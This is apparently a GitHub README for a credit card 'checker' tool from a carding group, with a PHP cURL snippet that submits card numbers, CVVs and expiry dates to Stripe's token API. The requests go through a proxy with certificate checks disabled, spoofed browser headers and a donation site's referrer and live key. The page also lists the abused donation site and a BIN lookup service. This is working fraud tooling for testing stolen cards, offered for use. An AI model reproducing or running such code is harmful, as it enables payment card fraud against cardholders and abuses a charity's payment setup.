 <a href="http://uncensored.vzpla.net/"><img src="https://i62.servimg.com/u/f62/12/98/31/84/logo10.jpg?v=3&s=200" title="Unc3ns0r3d Checker" alt="Unc3ns0r3d Checker"></a>

# ⛔Unc3ns0r3d-Checker⛔

> Language: EN (ENGLISH)

✔ Credit card 💳 checker, based on real donation systems and stripe. 


```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$nombre = datosnombre();
$apellido = datosapellido();
$email = email($nombre);
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, 'https://api.stripe.com/v1/tokens');
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_PROXY, $proxy);
curl_setopt($ch, CURLOPT_PROXYTYPE, CURLPROXY_SOCKS5);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0',
'Accept: application/json',
'Referer: https://js.stripe.com/v3/controller-e5a3104782ffac207edc3af004b9574b.html',
'Content-Type: application/x-www-form-urlencoded',
'Connection: keep-alive'));

curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$nombre.'+'.$apellido.'&card[address_line1]=&card[address_city]=&card[address_zip]=10001&card[currency]=USD&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=2a88d519-e56f-467a-9c63-c361a277ff54&muid=3190efac-5abc-4dac-9a48-03367b5b0064&sid=300c2fa4-1b47-44d1-8dfa-e0eb6728f2c3&payment_user_agent=stripe.js%2Fb78d06c%3B+stripe-js-v3%2Fb78d06c&referrer=https%3A%2F%2Fsecure.avaaz.org%2Fdonate%2Fpub-iframe.php%2F%3Fcid%3D3116%26lang%3Des%26sourceUrl%3Dhttps%253A%252F%252Fsecure.avaaz.org%252Fes%252Fdonate%252F&key=pk_live_eT3tlxY6x7Nzg9eDNkMYz99F&pasted_fields=number');
```
###  SITES 🌐

- **Site Donation 1**
    - https://secure.avaaz.org/

- **Site API 1**
    - https://api.stripe.com/v1/tokens
    
- **Site BIN 1**
    - https://lookup.binlist.net/


### Files included 📂

- api.php


### About Me 👨‍💻

Founder of Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Closed)
My favorite programming languages are C ++, VB.NET, PYTHON, PHP, JAVASCIPRT and JQUERY❤
I love coffee❤
The Unc3ns0r3d project was created 04/26/2018


